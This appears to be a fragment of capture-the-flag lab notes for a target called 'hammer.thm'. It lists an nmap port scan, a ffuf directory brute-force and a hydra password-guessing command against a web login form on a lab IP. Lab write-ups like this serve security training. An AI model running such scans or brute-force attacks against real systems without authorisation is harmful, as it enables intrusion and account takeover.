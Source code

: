 - `nmap -sS -Pn -p-10000 10.10.153.98`
- `ffuf -u 'http://10.10.153.98:1337/hmr_FUZZ/' -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt`

hydra -l 'tester@hammer.thm' -P passlist.txt 10.10.153.98 http-post-form "/:email=^USER^&password=^PASS^:Invalid Email"
